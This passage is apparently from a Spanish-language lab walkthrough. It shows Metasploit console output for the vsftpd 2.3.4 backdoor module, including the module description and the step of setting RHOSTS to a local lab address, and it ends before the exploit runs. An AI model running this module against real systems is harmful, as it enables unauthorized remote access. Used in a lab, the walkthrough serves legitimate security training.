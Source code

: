 ```bash
Available targets:
      Id  Name
      --  ----
  =>  0   Automatic

Check supported:
  No

#Necesidades del exploit

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the       VSFTPD download
  archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
  June 30th 2011 and July 1st 2011 according to the most recent information
  available. This backdoor was removed on July 3rd 2011.

References:
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html


View the full module info with the info -d command.

#Añadimos la Ip de la maquina vulnerable

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2

#revisamos los cambios 

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
                                                                                                                                                                                                                                            
Module options (exploit/unix/ftp/vsftpd_234_backdoor):                                                                                                                                                                                      
                                                                                                                                                                                                                                            
   Name    Current Setting  Required  Description                                                                                                                                                                                           
   ----    ---------------  --------  -----------                                                                                                                                                                                           
   RHOSTS  172.17.0.2       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html                                                                                                
   RPORT   21               yes       The target port (TCP)                                                                                                                                                                                 
                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                            
```